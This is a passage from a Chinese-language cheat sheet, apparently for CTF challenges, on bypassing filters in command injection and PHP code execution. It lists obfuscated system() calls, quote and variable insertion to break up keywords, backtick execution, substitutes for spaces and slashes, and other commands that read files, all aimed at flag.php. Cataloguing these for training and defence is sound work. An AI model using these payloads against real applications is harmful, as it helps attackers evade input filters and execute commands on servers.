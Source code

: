 8. 引号绕过（flag过滤）

   ```
   f&#34;&#34;lag
   f&#39;&#39;lag
   ```

* 命令执行函数system()绕过
  system(“whoami”)

1. 十六进制
```
“\x73\x79\x73\x74\x65\x6d”(“whoami”);
```
2. 括号绕过
```
(sy.(st).em)(whoami);
```
3. 使用内敛执行代替system
```
echo `ls`;
echo $(ls);
?&gt;&lt;?=`ls`;
?&gt;&lt;?=$(ls);
```
* 使用∗ 和 *和∗和@，x , x,x,{数字}
因为在没有传参的情况下，上面的特殊变量都是为空的
```
ca$*t 1010/flag.php
ca$@t 1010/flag.php
ca$2t 1010/flag.php
ca${39}t 1010/flag.php
```
* 	其它文件读取方式
```
curl file:///root/1010/flag.php
strings 1010/flag.php
uniq -c 1010/flag.php
bash -v 1010/flag.php
rev 1010/flag.php
```
* dir与ls的代替
find 列出当前目录下的文件以及子目录所有文件

### 过滤空格
```
%09（url传递）(cat%09flag.php)
${IFS}
$IFS$9
&lt;&gt;（cat&lt;&gt;/flag）
&lt;（cat&lt;/flag）
{cat,flag}
```
### 过滤目录分隔符 (/)
采用多个管道命令
```
;cd flag;cat *
```
